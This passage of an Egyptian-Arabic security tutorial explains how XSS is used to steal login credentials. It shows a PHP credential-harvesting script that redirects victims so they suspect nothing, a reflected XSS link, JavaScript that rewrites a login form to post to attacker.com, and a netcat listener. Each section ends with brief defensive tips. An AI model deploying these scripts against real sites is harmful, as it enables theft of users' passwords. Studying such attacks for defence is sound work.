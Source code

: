          - الأمر ده بيخلي السيرفر يسمع على بورت 80 ويستقبل الطلبات.
       - أو سكربت PHP بسيط:
         ```php
         <?php
         file_put_contents("stolen_credentials.txt", "User: " . $_POST['username'] . ", Pass: " . $_POST['password'] . "\n", FILE_APPEND);
         header("Location: http://vulnerable.com"); // ريدايركت للموقع الحقيقي عشان الضحية ميشكش
         ?>
         ```
         - الملف ده بيخزن البيانات في ملف نصي وبيحول الضحية للموقع الأصلي عشان ميلاحظش حاجة.
   - **إزاي بيحط السكربت؟**
     - **Stored XSS**: المهاجم بيكتب السكربت في خانة زي التعليقات أو المنشورات.
     - **Reflected XSS**: بيعمل لينك زي:
       ```
       http://vulnerable.com/search?q=<script>var fakeForm=document.createElement("div");...</script>
       ```
       وبيخلي الضحية يضغط عليه.
   - **الحماية**:
     - نظف مدخلات المستخدم عشان تمنع إضافة سكربتات.
     - استخدم Content Security Policy (CSP) عشان تمنع الفورمات من الإرسال لسيرفرات غريبة.

#### 2. **تعديل فورم موجود في الصفحة**
   - **إزاي بتحصل؟**
     - بدل ما يعمل فورم جديد، المهاجم بيعدل فورم تسجيل الدخول الحقيقي في الموقع عشان يبعت البيانات لسيرفره.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var loginForm = document.getElementById("login-form");
       loginForm.action = "http://attacker.com/steal";
       loginForm.method = "POST";
       ```
       - `getElementById`: بيجيب الفورم الحقيقي من الصفحة.
       - `action`: بيغير وجهة الفورم عشان تروح لسيرفر المهاجم.
     - **إعداد سيرفر المهاجم**:
       - زي الأول، netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_credentials.txt", "User: " . $_POST['username'] . ", Pass: " . $_POST['password'] . "\n", FILE_APPEND);
         header("Location: http://vulnerable.com/login");
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored XSS في تعليق أو Reflected XSS في لينك.
   - **الحماية**:
     - استخدم CSP عشان تمنع تعديل الفورمات.
     - راقب تصرفات الصفحة لو فيها تغييرات غريبة في الفورم.

